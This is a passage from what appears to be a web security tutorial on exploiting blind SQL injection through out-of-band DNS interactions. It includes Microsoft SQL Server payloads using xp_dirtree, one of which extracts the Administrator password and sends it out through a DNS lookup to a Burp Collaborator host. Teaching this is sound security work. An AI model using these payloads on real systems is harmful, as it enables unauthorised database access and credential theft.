 An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator. This is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box. For more information, see the documentation for Burp Collaborator.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This causes the database to perform a lookup for the following domain:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

## Exploiting blind SQL injection using out-of-band (OAST) techniques - Continued

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

#### Note
